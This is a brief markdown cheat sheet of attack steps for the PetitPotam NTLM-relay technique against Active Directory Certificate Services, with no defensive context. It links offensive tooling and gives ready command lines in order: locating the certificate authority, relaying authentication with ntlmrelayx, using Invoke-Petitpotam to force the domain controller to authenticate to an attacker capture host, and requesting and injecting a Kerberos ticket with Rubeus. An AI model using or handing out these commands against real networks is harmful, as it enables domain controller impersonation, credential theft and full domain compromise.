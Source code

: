 ### source
https://raw.githubusercontent.com/S3cur3Th1sSh1t/Creds/master/PowershellScripts/Invoke-Petitpotam.ps1  
https://github.com/topotam/PetitPotam  

### find certificate autthority
```
certutil.exe
```

### set up ntlm relay (forward incoming authentication from domain controller to certificate authority)
```
python3 ntlmrelayx.py -t http://<certificateAuthority>/certsrv/certfnsh.asp -smb2support --adcs
```

### trigger authentication from domain controller
```
Invoke-Petitpotam -Target <domainController> -CaptureHost <lhost>
```

### request kerberos TGT
```
Rubeus.exe asktgt /outfile:<file> /user:<domainController> /ptt /certificate:<base64Certificate>
```

